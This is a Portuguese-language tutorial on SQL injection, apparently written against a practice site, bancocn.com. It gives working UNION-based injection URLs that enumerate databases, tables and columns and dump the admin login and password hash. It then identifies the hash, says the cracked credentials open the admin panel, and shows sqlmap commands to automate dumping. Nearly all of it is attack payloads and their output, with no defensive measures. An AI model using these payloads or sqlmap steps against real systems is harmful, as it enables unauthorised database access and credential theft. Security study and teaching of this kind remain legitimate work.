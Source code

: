 # SQL Injection - Atacando o Servidor 💉

### Lista o nome dos bancos de dados:

* bancocn.com/cat.php?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata

Retorna `bancocn,information_schema` que são os dois bancos que o usuário tem permissões.

### Lista o nome de tabelas dentro de um banco de dados:

* bancocn.com/cat.php?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="bancocn"

Retorna `categories,pictures,status,users`.

### Lista colunas das tabelas:

* bancocn.com/cat.php?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"

Retorna `id,login,password`.

### Lista os dados das colunas:

* bancocn.com/cat.php?id=-1 union select 1,2,group_concat(login) from users

Retorna `admin`.


* bancocn.com/cat.php?id=-1 union select 1,2,group_concat(password) from users

Retorna o hash da senha do usuário `admin`.


### Bônus:

Podemos também executar o seguinte comando:

* bancocn.com/cat.php?id=-1 union select 1,2,group_concat(id, ": ",login,": ",password) from users

Para termos o retorno: `1: admin: <hash da senha do usuário admin>`.


## Hash Identifier 🔎

```bash
hash-identifier

HASH: <hash>
```

    Possible Hashs:
    [+] MD5
    [+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))


Descriptografado o hash, podemos acessar o seu conteúdo e utilizar as credenciais para acessar o painel administrativo do bancocn.com

## Automatizando o SQL Injection 🤖

Podemos também utilizar a ferramenta `sqlmap` para automatizar o processo de SQL Injection.

```bash
sqlmap -u "http://www.bancocn.com/cat.php?id=1"
```


```bash
sqlmap -r <cookies.txt>
```

* u: URL do site;
* r: Ler arquivo contendo os cookies do navegador;

##### Após terminada a injeção SQL pela ferramenta podemos executar os seguintes comandos:

* --dbs: Lista os bancos de dados do arquivo passado;
* -D <database> --tables: Lista as tabelas do banco de dados;
* -T <tablename> --columns: Lista as colunas da tabela do banco de dados;
* -C <column1,column2,column3> --dump: Realiza o `dump` das informações desejadas;